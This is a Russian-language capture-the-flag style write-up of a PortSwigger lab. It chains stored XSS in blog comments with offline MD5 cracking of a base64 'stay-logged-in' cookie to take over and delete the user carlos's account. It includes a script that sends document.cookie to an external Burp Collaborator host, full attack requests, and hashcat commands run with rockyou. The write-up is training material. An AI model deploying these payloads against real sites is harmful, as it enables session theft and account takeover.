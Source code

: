 ```yaml
---
title: "Offline password cracking"
date: 2025-09-25
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/vulnerabilities-in-other-authentication-mechanisms/authentication/other-mechanisms/lab-offline-password-cracking"
classes: wide
---
```


В данной лабе присутствует [XSS](https://ru.wikipedia.org/wiki/%D0%9C%D0%B5%D0%B6%D1%81%D0%B0%D0%B9%D1%82%D0%BE%D0%B2%D1%8B%D0%B9_%D1%81%D0%BA%D1%80%D0%B8%D0%BF%D1%82%D0%B8%D0%BD%D0%B3) уязвимость. Для решения лабы необходимо украсть `stay-logged-in` `Cookie` у `carlos`, получить доступ к аккаунту и удалить его. Даны креды от аккаунта `wiener`:`peter`.

```
https://0a68003203d2c5418051033700a50089.web-security-academy.net
```

## Solution

Зайду под данным аккаунтом. Мне выставили куку `stay-logged-in`:

```http
GET / HTTP/2
Host: 0a68003203d2c5418051033700a50089.web-security-academy.net
Cookie: session=xz39tRycULdqsRiWBn61J1oQhifRx5gW; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a68003203d2c5418051033700a50089.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

Попробую ее разобрать:

```bash
echo 'd2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw' | base64 -d
wiener:cdh
```

Так-с, вторая часть похожа на пароль, попробую понять алгоритм хеширования, так как пароль мне известен:

```bash
hashcat -m 0 -a 0 md5.txt ~/wordlists/rockyou.txt
51dc30ddc473d43a6011e9ebba6ca770:peter
```

С этим разобрался. Теперь нужно получить доступ к аккаунту `carlos`. Увидел секцию комментариев в постах блога. Попробую добавить туда `<script></script>`, так как известно, что есть `XSS` уязвимость.

```http
POST /post/comment HTTP/2
Host: 0a68003203d2c5418051033700a50089.web-security-academy.net
Cookie: session=xz39tRycULdqsRiWBn61J1oQhifRx5gW; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a68003203d2c5418051033700a50089.web-security-academy.net/post?postId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 174
Origin: https://0a68003203d2c5418051033700a50089.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers

postId=1&comment=%3Cscript%3Ealert%28%22comment%22%29%3C%2Fscript%3E&name=%3Cscript%3Ealert%28%22name%22%29%3C%2Fscript%3E&email=mail%40mail.com&website=http%3A%2F%2Fsite.com
```

И это сработало:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Offline_password_cracking/1.png){: height="200" .align-center}

Попробую украсть `cookie` у пользователя `carlos`. Для это использую `Burp Collaborator`. Также можно использовать свой сервер:

```js
<script>
document.location = "http://2lo3lq2q3rjgdhkuk2ps9lps4jaay2mr.oastify.com/" + document.cookie;
</script>
```

Мне пришел следующий запрос:

```http
GET /secret=hfAZzr9C3QNzL60PSGafiSqd0VYBPB6n;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1
Host: 2lo3lq2q3rjgdhkuk2ps9lps4jaay2mr.oastify.com
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
```

Разберу значение `Cookie`:

```bash
echo 'Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz' | base64 -d                                                carlos:26323c16d5f4dabff3bb136f2460a943

hashcat -m 0 -a 0 md5.txt ~/wordlists/rockyou.txt --show                                                               26323c16d5f4dabff3bb136f2460a943:onceuponatime
```

Попробую залогиниться со следующим кредами `carlos`:`onceuponatime`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Offline_password_cracking/2.png){: height="200" .align-center}

Получилось. Теперь удалю аккаунт:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Offline_password_cracking/3.png){: height="200" .align-center}

У меня была мысль попробовать удалить аккаунт через `XSS`, но для удаления аккаунта требуется ввести пароль, поэтому ничего бы не вышло(